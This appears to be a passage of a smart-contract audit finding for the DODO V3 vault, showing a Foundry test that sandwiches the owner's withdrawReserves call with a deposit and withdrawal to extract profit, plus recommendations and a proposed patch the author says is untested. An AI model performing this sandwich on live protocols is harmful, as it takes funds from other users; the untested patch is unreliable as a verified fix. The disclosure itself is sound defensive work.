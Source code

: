 ```diff
+
+        vm.warp(365 days + 1);
+
+        // Accrue interest from pool borrow
+        d3Vault.accrueInterest(address(token2));
+        uint256 reserves = d3Vault.getReservesInVault(address(token2));
+
+        // User 2 performs a sandwich attack on the withdrawReserves call to make a profit
+        vm.prank(user2);
+        d3Proxy.userDeposit(user2, address(token2), 100 ether);
+        vm.prank(vaultOwner);
+        d3Vault.withdrawReserves(address(token2), reserves);
+        uint256 dTokenBalance = D3Token(dToken2).balanceOf(user2);
+        vm.prank(user2);
+        d3Proxy.userWithdraw(user2, address(token2), dToken2, dTokenBalance);
+        assertGt(token2.balanceOf(user2), 1000 ether);
+    }
+
     function testWithdrawReserves() public {
         vm.prank(user1);
         token2.approve(address(dodoApprove), type(uint256).max);

```

## Impact
An attacker can perform a sandwich attack on calls to `withdrawReserves` to make an instantaneous profit from the protocol. This effectively steals funds away from other legitimate users of the protocol.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol#L235

## Tool used
Manual Review

## Recommendation
There are a couple of ways this type of attack could be prevented:

1. User deposits could have a minimum lock time in the protocol to prevent an immediate withdraw. However the downside is the user will still profit in the same manner due to the fluctuation in exchange rates.
2. Increasing reserves whilst accruing interest could have an equal and opposite decrease in token balance accounting. Every time reserves increase you are effectively taking token value out of the vault and "reserving" it for the protocol. Given the borrow rate is higher than the reserve increase rate, the exchange rate will continue to increase. I think something like the following would work (please note I haven't tested this):

```diff
diff --git a/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol b/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol
index 2fb9364..9ad1702 100644
--- a/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol
+++ b/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol
@@ -157,6 +157,7 @@ contract D3VaultFunding is D3VaultStorage {
         uint256 compoundInterestRate = getCompoundInterestRate(borrowRatePerSecond, deltaTime);
         totalBorrowsNew = borrowsPrior.mul(compoundInterestRate);
         totalReservesNew = reservesPrior + (totalBorrowsNew - borrowsPrior).mul(info.reserveFactor);
+        info.balance = info.balance - (totalReservesNew - reservesPrior);
         borrowIndexNew = borrowIndexPrior.mul(compoundInterestRate);
```